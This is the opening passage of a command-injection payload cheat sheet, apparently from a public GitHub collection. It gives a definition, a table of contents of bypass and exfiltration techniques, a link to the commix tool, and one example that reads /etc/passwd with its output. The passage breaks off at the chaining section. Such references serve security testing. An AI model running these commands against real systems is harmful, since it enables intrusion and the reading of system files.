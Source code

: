 # Command Injection

> Command injection is a security vulnerability that allows an attacker to execute arbitrary commands inside a vulnerable application.

## Summary

* [Tools](#tools)
* [Exploits](#exploits)
  * [Basic commands](#basic-commands)
  * [Chaining commands](#chaining-commands)
  * [Inside a command](#inside-a-command)
* [Filter Bypasses](#filter-bypasses)
  * [Bypass without space](#bypass-without-space)
  * [Bypass with a line return](#bypass-with-a-line-return)
  * [Bypass characters filter via hex encoding](#bypass-characters-filter-via-hex-encoding)
  * [Bypass blacklisted words](#bypass-blacklisted-words)
   * [Bypass with single quote](#bypass-with-single-quote)
   * [Bypass with double quote](#bypass-with-double-quote)
   * [Bypass with backslash and slash](#bypass-with-backslash-and-slash)
   * [Bypass with $@](#bypass-with-)
   * [Bypass with variable expansion](#bypass-with-variable-expansion)
   * [Bypass with wildcards](#bypass-with-wildcards)
* [Challenge](#challenge)
* [Time based data exfiltration](#time-based-data-exfiltration)
* [DNS based data exfiltration](#dns-based-data-exfiltration)
* [Polyglot command injection](#polyglot-command-injection)
* [References](#references)
    

## Tools

* [commix - Automated All-in-One OS command injection and exploitation tool](https://github.com/commixproject/commix)

## Exploits

### Basic commands

Execute the command and voila :p

```powershell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

### Chaining commands

